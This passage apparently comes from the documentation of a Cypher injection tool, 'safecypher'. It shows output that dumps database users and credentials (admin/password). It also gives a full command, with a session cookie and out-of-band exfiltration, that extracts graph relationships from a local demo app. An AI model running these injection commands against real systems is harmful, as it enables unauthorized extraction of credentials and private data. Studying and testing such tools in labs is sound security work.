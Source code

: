 	[*] Label: User
	[+] available properties [2]:
	[++] username [1]:
	[+++] admin
	[++] password [1]:
	[+++] password
	
	[*] Label: User
	[+] available properties [2]:
	[++] username
	[++] password
	+------+------------+------------+
	|   ID | username   | password   |
	+======+============+============+
	|    0 | admin      | password   |
	+------+------------+------------+
	```

4. Dump relationships
	```
	┌──(root💀kali)-[~/tools/web/safecypher]
	└─$ python3 safecypher.py -u http://127.0.0.1:5000/search1 -p keyboard_name -i eth0 -m POST -s "Kohaku" -c "session=.eJwljjkOwkAQBP-yMcEce_ozaI4d4QACG0eIv7MSUSVdrfqkexzzfKTtfVzzlu67py05QhmVWxZrKqxAYNg5q_fqvUhDos5kE2FGZBFuwTRNyJCKqIHVaM5tOluRdZdjCiwGVlbCUSG7WVmLFjZ4GaOAFu3DkTStkOucx79G_Lm_0vcHlIYxkw.ZhBXpw.UyRIVeXBJ-HKO95YpMo32ceI0Fg" --out-of-band  --relationship
	
	[*] exfiltrating relationships
	
	[*] relationships types [8]:
	[+] FAMILY
	[+] PARTNER
	[+] ENEMY
	[+] FRIEND
	[+] WORKS_FOR
	[+] OWNS
	[+] VISITS
	[+] LAWYER_FOR
	
	[*] available relationships [11]
	[+] FAMILY
	[++] Character:4-[:FAMILY]->Character:7
	[+] PARTNER
	[++] Character:4-[:PARTNER]->Character:5
	[+] ENEMY
	[++] Character:4-[:ENEMY]->Character:6
	[+] FRIEND
	[++] Character:5-[:FRIEND]->Character:4
	[+] WORKS_FOR
	[++] Character:6-[:WORKS_FOR]->Organization:12
	[++] Character:4-[:WORKS_FOR]->Organization:13
	[+] OWNS
	[++] Character:4-[:OWNS]->Place:9
	[++] Character:8-[:OWNS]->Place:11
	[+] VISITS
	[++] Character:5-[:VISITS]->Place:10
	[+] LAWYER_FOR
	[++] Character:8-[:LAWYER_FOR]->Character:4
	[++] Character:8-[:LAWYER_FOR]->Character:5
	